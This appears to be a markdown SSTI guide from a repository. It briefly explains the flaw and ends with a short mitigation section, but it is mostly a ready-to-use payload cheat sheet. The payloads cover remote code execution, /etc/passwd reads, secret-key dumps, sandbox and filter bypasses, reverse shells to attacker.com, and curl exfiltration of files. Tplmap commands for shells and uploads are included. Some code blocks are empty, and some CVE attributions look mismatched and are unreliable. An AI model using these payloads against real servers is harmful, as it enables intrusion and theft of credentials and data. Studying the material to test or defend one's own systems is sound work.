

# Server-Side Template Injection (SSTI)

> **SSTI occurs when user input is embedded directly into a template and evaluated — letting attackers execute arbitrary code on the server.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine filling out a feedback form on a website. Normally, the server takes your name and drops it into a static HTML page like:

```
Hello, John!
```

Now imagine the developer wrote the template like this (Python/Jinja2):

```python
template = "Hello, " + user_input + "!"
render(template)
```

If you type `{{7*7}}` as your name, instead of printing `Hello, {{7*7}}!`, the server **evaluates** the math and prints:

```
Hello, 49!
```

That's SSTI. You smuggled a **math formula** into the template engine and it ran it. Now imagine instead of math, you run **operating system commands**. That's why SSTI is often a **direct path to Remote Code Execution (RCE)**.

### 🔑 Key Difference from XSS

| | XSS | SSTI |
|---|---|---|
| **Where it executes** | Client's browser (JavaScript) | Server (Python, Java, PHP, Ruby...) |
| **Impact** | Cookie theft, UI manipulation | Full server compromise, RCE |
| **Who is affected** | Other users | The server itself |

---

## 🏗️ How It Works (Technical Deep Dive)

Template engines are used to generate dynamic HTML. The engine reads a template file with placeholders, combines it with data, and outputs final HTML.

### Vulnerable Code Example (Jinja2 / Flask)

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/greet')
def greet():
    name = request.args.get('name', 'World')
    # VULNERABLE: user input directly concatenated into template string
    template = f"<h1>Hello, {name}!</h1>"
    return render_template_string(template)
```

**Secure version:**

```python
@app.route('/greet')
def greet():
    name = request.args.get('name', 'World')
    # SAFE: user input passed as a variable, not embedded in template
    return render_template_string("<h1>Hello, {{ name }}!</h1>", name=name)
```

### Why Is This Dangerous?

Template engines have **access to the Python/Java/PHP runtime**. In Jinja2, the template can access Python objects, class hierarchies, and ultimately system-level functions. The template engine is designed to be powerful — it just wasn't designed for **untrusted input to control the template itself**.

---

## 📊 Engine Identification Flow



---

## ⚙️ Template Engine Detection Payloads

| Payload | Expected Output | Possible Engines |
|---|---|---|
| `{{7*7}}` | `49` | Jinja2, Twig, Nunjucks, Handlebars |
| `${7*7}` | `49` | FreeMarker, Thymeleaf, Groovy |
| `#{7*7}` | `49` | Pebble, Smarty |
| `<%=7*7%>` | `49` | ERB (Ruby), EJS (Node) |
| `#set($x=7*7)${x}` | `49` | Velocity |
| `{7*7}` | `49` | Smarty (PHP) |
| `{{7*'7'}}` | `7777777` | **Jinja2** (string * int repeats string) |
| `{{7*'7'}}` | `49` | **Twig** (performs arithmetic) |
| `<%= 7 * 7 %>` | `49` | ERB, EJS |
| `${7*7}` | `${7*7}` (literal) | Probably not FreeMarker |
| `a{*comment*}b` | `ab` | Smarty |

### Quick Probe Sequence

```
Step 1: {{7*7}}        → tests Jinja2/Twig/Nunjucks/Handlebars family
Step 2: ${7*7}         → tests Java template engines
Step 3: #{7*7}         → tests Pebble, Smarty
Step 4: <%=7*7%>       → tests Ruby ERB, Node EJS
Step 5: {{7*'7'}}      → differentiates Jinja2 from Twig
```

---

## 💥 Exploitation by Engine

---

### Jinja2 (Python)

Jinja2 is commonly found in Flask and Django applications.

#### Information Gathering

```jinja2
{{ config }}
{{ config.items() }}
{{ settings }}
{{ self.__dict__ }}
```

#### Class Traversal — Finding OS/Subprocess

```jinja2
{{ ''.__class__ }}
{{ ''.__class__.__mro__ }}
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This outputs every Python class currently loaded. You're looking for:
- `subprocess.Popen`
- `os.system`
- `os.popen`
- `subprocess.check_output`

#### Finding the Index Dynamically

```jinja2

  
    [{{ loop.index0 }}] {{ c.__name__ }}
  

```

#### Full RCE Payload (subprocess.Popen)

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[396]('id',shell=True,stdout=-1).communicate() }}
```

> **Note:** The index `396` varies by Python version and loaded modules. Use the loop above to find the correct index in your target.

#### Alternative RCE via os.popen

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
```

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__['os'].popen('id').read() }}
```

#### Using __builtins__ and __import__

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').system('id') }}
```

#### Config-Based (Flask Secret Key Dump)

```jinja2
{{ config.__class__.__init__.__globals__['os'].environ }}
```

```jinja2
{{ config['SECRET_KEY'] }}
```

#### Filter Bypass (when dots are blocked)

```jinja2
{{ ''['__class__']['__mro__'][1]['__subclasses__']()[396]('id',shell=True,stdout=-1).communicate() }}
```

---

### Twig (PHP)

Twig is used by Symfony, Drupal, and many PHP frameworks.

#### Basic Detection

```twig
{{7*7}}           → 49
{{7*'7'}}         → 49  (unlike Jinja2 which returns 7777777)
```

#### RCE via registerUndefinedFilterCallback

```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

#### RCE via system()

```twig
{{['id']|filter('system')}}
```

#### RCE via passthru()

```twig
{{['cat /etc/passwd']|filter('passthru')}}
```

#### Reading Files

```twig
{{'/etc/passwd'|file_get_contents}}
```

#### Twig Sandbox Escape

```twig
{{_self.env.setCache("ftp://attacker.com/exploit.php")}}{{_self.env.loadTemplate("exploit")}}
```

---

### FreeMarker (Java)

FreeMarker is common in Java web applications.

#### Basic Detection

```freemarker
${7*7}
${"freemarker.template.utility.Execute"?new()("id")}
```

#### Full RCE via Execute class

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id")}
```

#### Reading Files

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("cat /etc/passwd")}
```

#### Alternative via ObjectWrapper

```freemarker
<#assign classloader=object?api.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

### Velocity (Java)

Apache Velocity is an older Java template engine.

#### Detection

```velocity
#set($x=7*7)${x}    → 49
```

#### RCE via Runtime.exec()

```velocity
#set($e="e")${e.class.forName("java.lang.Runtime").getMethod("exec","".class).invoke(e.class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"id")}
```

#### Cleaner RCE via Velocity Tools

```velocity
#set($runtime = $class.inspect("java.lang.Runtime").type)
#set($process = $runtime.exec("id"))
#set($inputStream = $process.getInputStream())
#set($reader = $class.inspect("java.io.InputStreamReader").type)
#set($isr = $reader.getConstructor($inputStream.getClass()).newInstance($inputStream))
#set($br = $class.inspect("java.io.BufferedReader").type)
#set($bufferedReader = $br.getConstructor($isr.getClass()).newInstance($isr))
$bufferedReader.readLine()
```

---

### Pebble (Java)

Pebble is a Java templating engine similar to Jinja2.

#### Detection

```pebble
{{ 7 * 7 }}    → 49
```

#### RCE via getRuntime

```pebble


```

#### Alternative Pebble RCE

```pebble
{{ variable.getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke(variable.getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"id") }}
```

---

### Mako (Python)

Mako is a Python template engine used in Pylons and Pyramid.

#### Detection

```mako
${7*7}    → 49
```

#### RCE via __import__

```mako
${__import__('os').system('id')}
```

#### Reading Files

```mako
${open('/etc/passwd').read()}
```

#### Reverse Shell

```mako
${__import__('os').system('bash -i >& /dev/tcp/attacker.com/4444 0>&1')}
```

---

### ERB (Ruby)

ERB (Embedded Ruby) is used in Ruby on Rails views.

#### Detection

```erb
<%= 7 * 7 %>    → 49
```

#### RCE via system()

```erb
<%= system('id') %>
```

#### RCE via backticks

```erb
<%= `id` %>
```

#### Reading Files

```erb
<%= File.open('/etc/passwd').read %>
```

#### Reverse Shell

```erb
<%= system('bash -i >& /dev/tcp/attacker.com/4444 0>&1') %>
```

---

### Handlebars (Node.js)

Handlebars is a JavaScript templating engine.

#### Detection

```handlebars
{{7*7}}    → outputs literal {{7*7}} (Handlebars escapes by default)
```

> Handlebars is mostly logic-less, but prototype pollution can enable RCE.

#### RCE via Prototype Pollution + Constructor

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id').toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

### Nunjucks (Node.js)

Nunjucks is a full-featured templating engine for JavaScript (similar to Jinja2).

#### Detection

```nunjucks
{{7*7}}    → 49
```

#### RCE via range.constructor

```nunjucks
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

#### Reading Files

```nunjucks
{{range.constructor("return require('fs').readFileSync('/etc/passwd','utf8')")()}}
```

#### Reverse Shell

```nunjucks
{{range.constructor("return require('child_process').execSync('bash -i >& /dev/tcp/attacker.com/4444 0>&1')")()}}
```

---

## 🔬 Full Jinja2 RCE Walkthrough

### Step 1: Confirm Template Injection Exists

```
GET /search?q={{7*7}} HTTP/1.1
```

**Response contains:** `49` → confirmed SSTI

### Step 2: Confirm Jinja2 vs Twig

```
GET /search?q={{7*'7'}} HTTP/1.1
```

- `7777777` → **Jinja2**
- `49` → Twig

### Step 3: Enumerate Loaded Classes

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This dumps all classes. Copy the output and search for `subprocess.Popen` or `os`.

### Step 4: Find subprocess.Popen Index

```python

  
    INDEX: {{ i }}
  

```

### Step 5: Execute Command

```python
{{ ''.__class__.__mro__[1].__subclasses__()[396]('id',shell=True,stdout=-1).communicate() }}
```

Replace `396` with the index you found.

### Step 6: Upgrade to Reverse Shell

```python
{{ ''.__class__.__mro__[1].__subclasses__()[396]('bash -i >& /dev/tcp/10.10.10.10/4444 0>&1',shell=True,stdout=-1).communicate() }}
```

### Step 7: Exfiltrate Sensitive Data

```python
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.__class__.__init__.__globals__['os'].environ }}
{{ config['SECRET_KEY'] }}
{{ config['DATABASE_URL'] }}
```

---

## 🏖️ Sandbox Escapes

Some applications use template sandboxes to restrict what templates can access.

### Jinja2 Sandbox Escape

Jinja2's sandbox blocks access to `__class__`, `__mro__`, etc. Bypasses:

#### Using request object (Flask context)

```jinja2
{{ request.__class__.__mro__[8].__subclasses__()[40]('/etc/passwd').read() }}
```

#### Using lipsum or other globals

```jinja2
{{ lipsum.__globals__["os"].popen('id').read() }}
{{ get_flashed_messages.__globals__['current_app'].config }}
```

#### Using cycler object

```jinja2
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

#### Using joiner/namespace

```jinja2
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

### Filter/Character Bypass Techniques

When certain characters like `.`, `_`, `[`, `]` are blocked:

```jinja2
{{ request|attr('__class__')|attr('__mro__')|list }}
```

```jinja2
{{ ''|attr('\x5f\x5fclass\x5f\x5f') }}
```

Using `|attr()` with hex-encoded attribute names to bypass WAFs.

---

## 👻 Blind SSTI

When the output is not reflected in the response, use out-of-band techniques.

### Time-Based Detection

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[396]('sleep 5',shell=True,stdout=-1).communicate() }}
```

If the response takes 5+ seconds to return, SSTI is confirmed.

### DNS Exfiltration (Jinja2)

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[396]('curl http://$(whoami).attacker.com',shell=True,stdout=-1).communicate() }}
```

Monitor your DNS server (Burp Collaborator, interactsh) for incoming requests.

### Data Exfiltration via HTTP

```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[396]('curl -d "$(cat /etc/passwd)" http://attacker.com/exfil',shell=True,stdout=-1).communicate() }}
```

### Using interactsh for Blind Confirmation

```bash
# Start interactsh client
interactsh-client -server oast.pro

# Use generated domain in payload
{{ ''.__class__.__mro__[1].__subclasses__()[396]('curl http://abc123.oast.pro',shell=True,stdout=-1).communicate() }}
```

---

## 🔍 Detection Methodology

### Where to Look for SSTI

1. **URL parameters** — `?name=`, `?search=`, `?template=`
2. **Form fields** — Contact forms, feedback forms, search inputs
3. **HTTP headers** — `User-Agent`, `Referer`, `X-Forwarded-For`, `Host`
4. **Cookie values** — Especially session cookies or tracking cookies
5. **JSON body parameters** — APIs that render user-provided strings
6. **File names** — File upload functionality that echoes the filename
7. **Email templates** — "Custom message" fields in notifications

### Test All Input Points

```
# Basic probe for each input
{{7*7}}
${7*7}
#{7*7}
<%=7*7%>
#set($x=7*7)${x}
```

### Signs of SSTI in Response

- Input is reflected but math is evaluated (e.g., `49` instead of `{{7*7}}`)
- Error messages mentioning template engine names (Jinja2, Twig, FreeMarker)
- Stack traces in responses revealing template context
- Response delays when injecting sleep commands

---

## 🛠️ Tools

### tplmap — Automated SSTI Scanner

tplmap is the sqlmap equivalent for SSTI.

```bash
# Install
git clone https://github.com/epinna/tplmap.git
cd tplmap
pip install -r requirements.txt

# Basic scan
python tplmap.py -u 'http://target.com/page?name=John'

# POST request
python tplmap.py -u 'http://target.com/login' -d 'username=John&password=pass'

# With cookies
python tplmap.py -u 'http://target.com/page?name=John' --cookie 'session=abc123'

# Execute OS command
python tplmap.py -u 'http://target.com/page?name=John' --os-cmd 'id'

# Open interactive shell
python tplmap.py -u 'http://target.com/page?name=John' --os-shell

# Bind shell on port 4444
python tplmap.py -u 'http://target.com/page?name=John' --bind-shell 4444

# Reverse shell
python tplmap.py -u 'http://target.com/page?name=John' --reverse-shell attacker.com 4444

# Upload file
python tplmap.py -u 'http://target.com/page?name=John' --upload /tmp/shell.php /var/www/html/shell.php

# Force engine detection
python tplmap.py -u 'http://target.com/page?name=John' --engine Jinja2
```

### Burp Suite

```
1. Spider the application and intercept all requests
2. Send each parameter to Repeater
3. Try SSTI probes: {{7*7}}, ${7*7}, #{7*7}
4. Use Intruder with SSTI wordlist for automated fuzzing
5. Check all reflected parameters in responses
```

### Manual Fuzzing with curl

```bash
# Test GET parameter
curl -s "http://target.com/page?name={{7*7}}"

# Test POST parameter
curl -s -X POST "http://target.com/login" -d "username={{7*7}}&password=test"

# URL encoded payload
curl -s "http://target.com/page?name=%7B%7B7*7%7D%7D"

# With cookies
curl -s "http://target.com/page?name={{7*7}}" -H "Cookie: session=abc123"
```

### SSTImap (newer alternative to tplmap)

```bash
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip install -r requirements.txt

python sstimap.py -u 'http://target.com/page?name=John'
python sstimap.py -u 'http://target.com/page?name=John' -s  # interactive shell
```

---

## 🐛 Real CVE Examples

### CVE-2019-8341 — Jinja2 SSTI in Flask Debug Mode

- **Affected:** Jinja2 2.10 and earlier
- **Description:** The Jinja2 template engine was vulnerable to SSTI when `render_template_string()` was used with user-controlled input
- **Impact:** Full RCE on the server
- **CVSS:** 9.8 (Critical)

```python
# Vulnerable pattern
@app.route('/page')
def page():
    name = request.values.get('name')
    return render_template_string('<p>Hello ' + name + '!</p>')
    # Attacker sends: name={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

### CVE-2016-4977 — Spring Security OAuth2 SSTI (SpEL Injection)

- **Affected:** Spring Security OAuth 2.0 <= 2.0.9, <= 1.0.5
- **Description:** The `whitelabel` error view used Spring Expression Language (SpEL) to render error messages, and the `scope` parameter was included without sanitization
- **Impact:** RCE via SpEL injection in the OAuth2 authorization endpoint
- **CVSS:** 9.8 (Critical)
- **PoC:**

```
GET /oauth/authorize?response_type=token&client_id=acme&scope=${T(java.lang.Runtime).getRuntime().exec('id')} HTTP/1.1
```

### CVE-2022-22963 — Spring Cloud Function SSTI (SpEL)

- **Affected:** Spring Cloud Function 3.1.6, 3.2.2
- **Description:** Routing functionality allowed SpEL expressions in the `spring.cloud.function.routing-expression` header
- **Impact:** RCE
- **CVSS:** 9.8 (Critical)

```http
POST /functionRouter HTTP/1.1
Host: target.com
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
Content-Type: text/plain

test
```

### CVE-2021-25770 — Smarty SSTI in Multiple PHP Applications

- **Affected:** Smarty template engine
- **Description:** Sandbox bypass allowing PHP code execution
- **Payload:**

```php
{php}echo `id`;{/php}
{literal}{/literal}{$smarty.template_object->getActiveTemplate()}
```

---

## 🛡️ Mitigation

### 1. Never Concatenate User Input into Template Strings

```python
# VULNERABLE
template = "Hello " + user_input
render_template_string(template)

# SAFE
render_template_string("Hello {{ name }}", name=user_input)
```

### 2. Use a Logic-Less Template Engine

Consider Mustache or similar engines that deliberately lack code execution capabilities.

### 3. Sandbox Template Execution

```python
from jinja2.sandbox import SandboxedEnvironment

env = SandboxedEnvironment()
env.from_string(user_template).render()
```

### 4. Input Validation and Sanitization

```python
import re

def sanitize_template_input(user_input):
    # Block template injection characters
    dangerous_patterns = [r'\{\{', r'\}\}', r'\{%', r'%\}', r'\$\{', r'#\{']
    for pattern in dangerous_patterns:
        if re.search(pattern, user_input):
            raise ValueError("Invalid input detected")
    return user_input
```

### 5. Content Security Policy (CSP)

Implement strict CSP headers to limit impact even if SSTI occurs in a client-rendered context.

### 6. Run Applications with Minimal Privilege

Apply the principle of least privilege so that even if RCE is achieved, the impact is contained.

---

## 📚 References

- [PortSwigger SSTI Research](https://portswigger.net/research/server-side-template-injection)
- [PortSwigger Web Security Academy - SSTI](https://portswigger.net/web-security/server-side-template-injection)
- [HackTricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [tplmap GitHub](https://github.com/epinna/tplmap)
- [SSTImap GitHub](https://github.com/vladko312/SSTImap)
- [PayloadsAllTheThings SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [CVE-2016-4977 Analysis](https://blog.orange.tw/2016/04/bug-hunting-with-spring-boot-actuators.html)
- [CVE-2022-22963 Analysis](https://tanzu.vmware.com/security/cve-2022-22963)
- [Jinja2 Sandbox Documentation](https://jinja.palletsprojects.com/en/3.1.x/sandbox/)
- [OWASP Testing Guide - Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-Side_Template_Injection)
